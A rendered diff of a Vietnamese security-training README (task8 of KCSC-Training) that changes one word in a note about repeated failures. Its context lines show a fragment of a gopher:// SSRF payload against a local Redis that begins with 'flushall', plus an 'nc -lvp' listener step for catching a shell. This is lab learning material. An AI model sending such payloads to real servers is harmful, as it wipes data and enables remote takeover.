

Before and after one commit to caodchuong312/KCSC-Training, a Markdown page: task8/README.md, the part around the change. Drawn GitHub-style; grey boxes are pictures that could not be loaded.

````diff
--- a/task8/README.md
+++ b/task8/README.md
@@ -86,7 +86,7 @@ gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0As
 ```
 - Bây giờ chỉ việc dùng `nc -lvp 1235` rồi gửi payload thôi...
 
-Mặc dù thử rất nhiều lần nhưng em vẫn bị lỗi :
+Mặc dù thử rất nhiều lần nhưng em vẫn bị fail :
 
 ![image](https://user-images.githubusercontent.com/92881216/229124019-26a57794-41a9-4685-8a5b-53ed77b445fe.png)
 
````
